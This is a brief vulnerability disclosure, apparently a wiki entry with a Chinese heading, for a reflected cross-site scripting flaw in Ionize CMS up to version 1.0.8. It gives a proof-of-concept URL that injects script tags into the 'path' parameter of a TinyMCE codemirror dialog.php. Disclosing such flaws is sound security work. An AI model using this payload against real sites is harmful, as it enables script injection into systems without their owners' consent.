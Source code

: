 <languages /> <translate>

漏洞影響
--------

</translate> \<=Ionize 1.0.8

POC
---

    http://<target>/testcmsofgithub/ionize-master/ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php?path=%22%3E%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3Cscript%20%22